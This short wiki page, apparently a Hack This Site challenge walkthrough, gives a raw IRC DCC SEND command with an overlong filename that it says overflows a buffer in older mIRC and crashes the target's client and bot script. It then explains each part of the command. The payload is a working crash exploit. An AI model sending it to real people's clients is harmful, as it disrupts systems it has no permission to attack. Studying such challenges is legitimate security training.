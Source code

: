 This may or may not work, depending on your operating system, browser, and IRC client.
<pre>/raw PRIVMSG moo :�DCC SEND "a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a" 1370673706 3500 4</pre>
This exploits a flaw in older versions of mIRC where a buffer overflow in a DCC SEND command will cause the client (and therefore the bot script) to crash.
"/raw" tells your client to send this raw string instead of formatting it as you saying something, etc.
"PRIVMSG moo" tells the server that you are private messaging moo
" :�" The space, colon, and 0001 unicode character are required by the IRC protocol
"DCC SEND "..."" tells the remote client that you are trying to direct connect to send file "..."
"1370673706 3500 4" related to the IRC protocol

[[Category:Hack This Site]]
